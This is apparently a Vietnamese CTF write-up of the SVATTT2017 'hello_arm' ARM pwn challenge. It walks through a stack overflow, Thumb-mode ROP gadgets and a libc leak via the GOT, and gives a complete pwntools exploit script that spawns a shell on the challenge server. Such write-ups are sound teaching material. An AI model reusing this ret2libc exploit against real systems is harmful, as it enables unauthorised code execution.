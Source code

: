 ```yaml
---
layout: post
title: "[SVATTT2017 Final Round] [Daemon] [Pwn] hello_arm"
---
```


Sau khi thọt ở vòng sơ khảo với bài formatstring. Mình đã phục thù với bài daemon **noteservice** . Nhưng lại ngã với bài **hello_arm.**... .

Trong buổi thi thì BTC có cho file img arm để tạo env debug. Xui làm sao hôm đó load file đó lại không ra mạng được, không setup được gdb. Mình down src gdb về build nhưng đến cuối lại bị failed. Thế là hôm đó quỳ với bài này... 

Về nhà mình đã tự build img arm và setup peda-arm để debug.

Link các challenges đã được VNSEC public : `https://docs.google.com/spreadsheets/d/e/2PACX-1vQ3hmA1FHf-a2uymoaXk8Cu8yvji_0mYI2EnPbmSzRHoiWMwPuLXj_OpaLcqEtYHYepcI3GG3rEIpEM/pubhtml?gid=0&single=true`



Check file: 

```
hello_arm.1: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c81cfe892f89ccc0d55b9e5d4ec40048b00de0d6, stripped
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```



Quăng vào IDA thì dễ dàng thấy lỗi bof ở đây

```C
int sub_1054C()
{
  int v1; // [sp+0h] [bp+0h]

  puts("Overflow me.");
  read(0, &v1, 1024u); // <--- bof
  return puts("End");
}
```

![](https://i.imgur.com/fEKFqix.png)

ta thấy ins `SUB SP,SP, #0x80` với SP là reg stack pointer nên ta cần padding `0x84` để có thể overwrite địa chỉ trả về.

Bài này có bật ASLR trên server nên cần phải leak địa chỉ libc base trước. 

Để có thể leak được thì cần đưa địa chỉ GOT vào thanh ghi R0. Và cần một gadget dạng `pop {xxx,pc}` để đưa hàm cần gọi vào reg PC (program counter).

dùng ROPgadget để thử tìm gadget cần :

`ROPgadget --binary hello_arm`

`1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}` (popret)

nhưng không control được R0. 

Đến đây thì mình đã stuck. Nhưng chợt nhớ đến hint của BTC là **thumb2-mode** .

Sau khi tìm hiểu (`http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0344c/Beiiegaf.html` ) thì được biết rằng architecture **arm** có 3 loại instruction sets là : ARM thumb và thumb2. ARM dùng instruction 32-bit, thumb dùng instruction 16-bit và thumb2 32 bit mixing giữa 2 loại này (hỗ trợ thumb trên 32-bit và ARM). 

Vì mặc định của của ROPgadget sẽ không hiện các instruction thumb nên cần phải thêm options `--thumb`

`ROPgadget --thumb --binary hello_arm`

Ở đây có 2 gadget mình cần là :

`0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr` (popR3)

`0x000105c6 : mov r0, r3 ; pop {r7, pc}` (movR0)

Payload mình sẽ là :

- popret 
- popR3
- got read
- mov R0 ,R3 
- plt puts
- return to main

```python
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read']) # parameter
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts']) # call function
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
```

Sau khi leak được libc, tiếp theo chỉ cần tính các offset binsh và system để call system("/bin/sh")

script : 

```python
from pwn import *

file = ELF('hello_arm.1')
libc = ELF('./libc-2.23.so')



def main(argv):
	if len(argv)<2:
		r = remote('localhost', 31335)
	else:
		r = remote('119.81.181.254',31335)

	ret2main = 0x0001054C

	r.recvuntil('Overflow me.\n')
	
	popret = 0x1051c
	# 1051c:	e8bdb913 	pop	{r0, r1, r4, r8, fp, ip, sp, pc}
	popr3=0x000105fc
	#0x000105fc : pop.w {r3, r4, r5, r6, r7, r8, sb, pc} ; lsrs r2, r6, #4 ; movs r1, r0 ; lsrs r0, r5, #4 ; movs r1, r0 ; bx lr
	movr0=0x000105c6
	#0x000105c6 : mov r0, r3 ; pop {r7, pc}
	
	#pause()
	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(file.got['read'])
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(file.symbols['puts'])
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.sendline(payload)
	r.recvuntil("End")
	print r.recvline()

	libc.address=u32(r.recv(4))-libc.symbols['read']
	syst=libc.symbols['system']
	binsh=next(libc.search('/bin/sh\x00'))

	log.info("libc base : " + hex(libc.address))
	log.info("system : " + hex(syst))
	log.info("binsh : " + hex(binsh))

	
	payload=""
	payload+='B'*(0x80+4) 
	payload+= p32(popret+1)
	payload+="A"*4+ p32(popr3+1)
	payload+=p32(binsh)
	payload+="A"*24
	payload+=p32(movr0+1)
	payload+="AAAA"
	payload+=p32(syst)
	payload+="BBBB"*7
	payload+=p32(ret2main+1)
	
	r.recvuntil('Overflow me.\n')
	r.sendline(payload)

	r.interactive()

if __name__ == '__main__':
	main(sys.argv)
```



![a](https://i.imgur.com/aW7AlOQ.png)

Bài này cũng không khó, chủ yếu phải setup được môi trường ... hi vọng lần sau sẽ không ngã với arm nữa ...


